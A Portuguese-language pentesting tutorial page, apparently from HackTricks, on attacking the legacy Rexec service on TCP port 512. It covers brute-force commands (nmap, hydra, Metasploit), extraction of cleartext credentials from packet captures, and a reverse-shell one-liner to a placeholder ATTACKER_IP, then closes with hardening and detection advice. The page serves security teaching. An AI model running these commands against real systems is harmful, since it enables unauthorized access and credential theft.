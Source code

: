 # 512 - Pentesting Rexec

{{#include ../banners/hacktricks-training.md}}

## Informações Básicas

Rexec (remote **exec**) é um dos serviços originais da suíte Berkeley *r* (junto com `rlogin`, `rsh`, …). Ele fornece uma capacidade de **execução remota de comandos** **autenticada apenas com um nome de usuário e senha em texto claro**. O protocolo foi definido no início dos anos 1980 (veja RFC 1060) e hoje é considerado **inseguro por design**. No entanto, ainda está habilitado por padrão em alguns equipamentos legados UNIX / conectados à rede e ocasionalmente aparece durante pentests internos.

**Porta Padrão:** TCP 512 (`exec`)
```
PORT    STATE SERVICE
512/tcp open  exec
```
> 🔥 Todo o tráfego – incluindo credenciais – é transmitido **não criptografado**. Qualquer um com a capacidade de monitorar a rede pode recuperar o nome de usuário, senha e comando.

### Visão rápida do protocolo

1. O cliente se conecta ao TCP 512.
2. O cliente envia três strings **terminadas em NUL**:
* o número da porta (como ASCII) onde deseja receber stdout/stderr (geralmente `0`),
* o **nome de usuário**,
* a **senha**.
3. Uma string final terminada em NUL com o **comando** a ser executado é enviada.
4. O servidor responde com um único byte de status de 8 bits (0 = sucesso, `1` = falha) seguido pela saída do comando.

Isso significa que você pode reproduzir a troca com nada mais do que `echo -e` e `nc`:
```bash
(echo -ne "0\0user\0password\0id\0"; cat) | nc <target> 512
```
Se as credenciais forem válidas, você receberá a saída de `id` diretamente na mesma conexão.

### Uso manual com o cliente

Muitas distribuições Linux ainda incluem o cliente legado dentro do pacote **inetutils-rexec** / **rsh-client**:
```bash
rexec -l user -p password <target> "uname -a"
```
Se `-p` for omitido, o cliente solicitará interativamente a senha (visível na rede em texto claro!).

---
## Enumeração & Força Bruta

### [**Força Bruta**](../generic-hacking/brute-force.md#rexec)

### Nmap
```bash
nmap -p 512 --script rexec-info <target>
# Discover service banner and test for stdout port mis-configuration

nmap -p 512 --script rexec-brute --script-args "userdb=users.txt,passdb=rockyou.txt" <target>
```
O `rexec-brute` NSE usa o protocolo descrito acima para tentar credenciais muito rapidamente.

### Hydra / Medusa / Ncrack
```bash
hydra -L users.txt -P passwords.txt rexec://<target> -s 512 -t 8
```
`hydra` tem um módulo **rexec** dedicado e continua sendo o bruteforcer offline mais rápido. `medusa` (`-M REXEC`) e `ncrack` (módulo `rexec`) podem ser usados da mesma forma.

### Metasploit
```
use auxiliary/scanner/rservices/rexec_login
set RHOSTS <target>
set USER_FILE users.txt
set PASS_FILE passwords.txt
run
```
O módulo irá gerar um shell com sucesso e armazenar as credenciais no banco de dados.

---
## Captura de credenciais

Como tudo está em texto claro, **as capturas de rede são inestimáveis**. Com uma cópia do tráfego, você pode extrair credenciais sem tocar no alvo:
```bash
tshark -r traffic.pcap -Y 'tcp.port == 512' -T fields -e data.decoded | \
awk -F"\\0" '{print $2":"$3" -> "$4}'  # username:password -> command
```
(In Wireshark, ative *Decode As …​* TCP 512 → REXEC para visualizar os campos analisados de forma adequada.)

---
## Dicas de Pós-Exploração

* Comandos são executados com os privilégios do usuário fornecido. Se `/etc/pam.d/rexec` estiver mal configurado (por exemplo, `pam_rootok`), shells de root são às vezes possíveis.
* Rexec ignora o shell do usuário e executa o comando via `/bin/sh -c <cmd>`. Você pode, portanto, usar truques típicos de escape de shell (`;`, ``$( )``, crase) para encadear múltiplos comandos ou gerar shells reversos:
```bash
rexec -l user -p pass <target> 'bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'
```
* Senhas são frequentemente armazenadas em **~/.netrc** em outros sistemas; se você comprometer um host, pode reutilizá-las para movimentação lateral.

---
## Fortalecimento / Detecção

* **Não exponha rexec**; substitua-o por SSH. Praticamente todos os *inetd* superservers modernos comentam o serviço por padrão.
* Se você precisar mantê-lo, restrinja o acesso com TCP wrappers (`/etc/hosts.allow`) ou regras de firewall e imponha senhas fortes por conta.
* Monitore o tráfego para :512 e para lançamentos do processo `rexecd`. Uma única captura de pacote é suficiente para detectar uma comprometimento.
* Desative `rexec`, `rlogin`, `rsh` juntos – eles compartilham a maior parte do mesmo código e fraquezas.

---

## Referências

* Documentação do Nmap NSE `rexec-brute` – [https://nmap.org/nsedoc/scripts/rexec-brute.html](https://nmap.org/nsedoc/scripts/rexec-brute.html)
* Módulo Rapid7 Metasploit `auxiliary/scanner/rservices/rexec_login` – [https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login](https://www.rapid7.com/db/modules/auxiliary/scanner/rservices/rexec_login)
{{#include ../banners/hacktricks-training.md}}
